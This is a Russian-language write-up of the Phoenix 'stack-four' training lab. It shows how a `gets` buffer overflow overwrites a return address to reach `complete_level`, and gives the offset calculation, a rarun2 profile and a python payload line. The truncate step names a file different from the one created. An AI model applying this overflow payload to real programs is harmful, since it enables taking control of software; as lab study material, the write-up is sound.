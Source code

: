 Цель - изменить адрес возврата функции `start_level`\

Уязвимое место `gets(buffer);`\

Находим смещение в стеке до адреса возварата 

стек до вызова функции
![alt text](../images/stack-four/1.png)

стек после вызова функции
![alt text](../images/stack-four/2.png)
адрес возврата по адресу 0x...e618

стек после выделения локальных переменных 
![alt text](../images/stack-four/3.png)

адрес переменной `buffer`
![alt text](../images/stack-four/4.png)

Получается, что необходимо записать 0x618-0x5c0 мусорных байт + адрес функции `complete_level`\

адрес функции `complete_level`\
![alt text](../images/stack-four/5.png)

заполняем профиль profileSFo.rr2
```
#!/usr/bin/rarun2
stdin=/opt/phoenix/amd64/inputfileSFo
```

Заполняем файл inputfileSFo
```
python -c "print('A' * 88 + '\x1d\x06\x40\x00\x00\x00\x00\x00')" > inputfileSFo
```

И убираем байт \0a
```
truncate -s -1 inputfileSTh
```

Содрежимое файла
![alt text](../images/stack-four/6.png)

Победа \
![alt text](../images/stack-four/7.png)